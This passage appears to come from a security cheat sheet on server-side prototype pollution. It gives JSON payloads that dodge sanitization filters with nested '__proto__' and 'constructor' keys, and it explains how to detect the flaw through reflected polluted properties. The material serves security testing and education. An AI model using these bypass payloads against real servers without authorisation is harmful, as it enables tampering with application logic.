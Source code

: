 * Bypass Sanitization

```json
{
    "name": "john",
    "email": "john@example.com",
    "__pro__proto__to__": {
        "foo": "bar"
    }
}
```

```json
{
    "name": "john",
    "email": "john@example.com",
    "constconstructorructor": {
        "prototype": {
            "foo": "bar"
        }
    }
}
```

## Detection

In the detection phase of server-side prototype pollution (SSPP), the goal is to identify if a vulnerable server accepts and processes maliciously crafted payloads that can lead to prototype pollution. Here are key detection techniques based on the resources you provided:

### **Polluted Property Reflection**

One of the most common ways to detect SSPP is by submitting JSON data containing `__proto__` or `constructor` objects and then checking whether the polluted properties are reflected in the response or server behavior.

**Example Payloads:**

```json
{
    "name": "john",
    "email": "john@example.com",
    "__proto__": {
        "foo": "bar"
    }
}
```

If the application is vulnerable, the response might include the new `foo` property:

```json
{
    "name": "john",
    "email": "john@example.com",
    "foo": "bar"
}
```
